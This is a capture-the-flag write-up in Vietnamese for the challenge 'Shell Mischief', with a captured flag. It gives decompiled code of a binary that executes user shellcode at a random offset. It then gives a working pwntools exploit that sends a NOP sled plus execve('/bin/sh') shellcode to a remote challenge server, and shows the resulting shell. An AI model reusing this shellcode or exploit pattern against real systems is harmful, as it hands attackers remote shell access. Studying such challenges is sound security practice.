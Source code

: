 # Shell Mischief
## Analysis
Chương trình nhận shellcode làm đầu vào sau đó thực thi, byte bắt đầu trong shellcode được random trong khoảng [0,256]
```
undefined4 main(void) {
  long lVar1;
  undefined local_218;
  undefined auStack_217 [511];
  int local_18;
  __gid_t local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  local_14 = getegid();
  setresgid(local_14,local_14,local_14);
  puts("Enter your shellcode:");
  vuln(&local_218);
  puts("Thanks! Executing from a random location now...");
  lVar1 = rand();
  local_18 = lVar1 % 0x100 + 1;
  (*(code *)(auStack_217 + lVar1 % 0x100))();
  puts("Finishing Executing Shellcode. Exiting now...");
  return 0;
}
```
## Solution
Sử dụng kỹ thuật NOP sled:
```
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./vuln", checksec = False)
con = remote("34.125.199.248", 1234)

shellcode = asm(
    '''
    mov eax, 0x0b
    push 6845231
    push 1852400175
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    ''', arch = 'i386'
)

con.sendafter(b"shellcode:", b'\x90' * 256 + shellcode)
con.interactive()
```
```
└─$ ./exp.py
[+] Opening connection to 34.125.199.248 on port 1234: Done
[*] Switching to interactive mode
Thanks! Executing from a random location now...
$ ls
bin
boot
dev
etc
home
...
```
## Flag
```
OSCTF{u_r_b3rry_mischievous_xD}
``` 